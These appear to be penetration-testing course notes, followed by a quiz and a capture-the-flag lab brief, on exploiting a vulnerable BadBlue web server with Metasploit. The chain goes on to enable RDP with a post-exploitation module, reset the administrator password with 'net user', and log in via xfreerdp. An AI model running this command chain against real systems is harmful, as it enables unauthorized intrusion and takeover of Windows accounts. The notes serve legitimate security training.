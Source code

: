 - Remote Desktop Protocol
- Used to connect to a Windows System
- Port 3389
- Disabled by default
- Requires legitimate credentials (clear text)

Setup exploit
```
search badblue
use exploit/windows/http/badblue_passthru
set target <badblue_version>
exploit
```

Enable RDP exploit
```
search enable_rdp
use post/windows/manage/enable_rdp
set SESSION <session_id>
```

Confirm RDP is running by scanning the target
```
db_nmap -sV -p 3389 <target_ip>
```

Grab user credentials -> or change the credentials
```
net user administrator <password>
```

Connect to windows machine via xfreerdp tool
```
xfreerdo /u:administrator /p:<password> /v:<remote_ip>
```
## Quiz

Which one of the following commands can be used to authenticate with a Windows target via RDP?

	xfreerdp /u:administrator /p:password123 /v:10.10.10.1
## Lab

A Kali GUI machine and a target machine running a vulnerable application are provided to you. The IP address of the target machine is provided in a text file named target placed on the Desktop of the Kali machine (/root/Desktop/target). 

Your task is to fingerprint the vulnerable application using the tools available on the Kali machine and then exploit the vulnerability using the Metasploit framework. Then, enable the target machine RDP service and access it using xfreerdp tool.

**Note:** rdesktop will not work on this setup as it does not support NLA. Please use xfreerdp to connect to the RDP server.

**Objective:** Your task is to find and exploit the vulnerable application and get the RDP session to find the flag!

Instructions:* Your Kali machine has an interface with IP address 10.10.X.Y. Run “ip addr” to know the values of X and Y. * The IP address of the target machine is mentioned in the file “/root/Desktop/target” * Do not attack the gateway located at IP address 192.V.W.1 and 10.10.X.1 * Dictionaries to use: + /usr/share/metasploit-framework/data/wordlists/common_users.txt + /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt

```
local ip: 10.10.80.7
remote ip: 10.4.17.109


```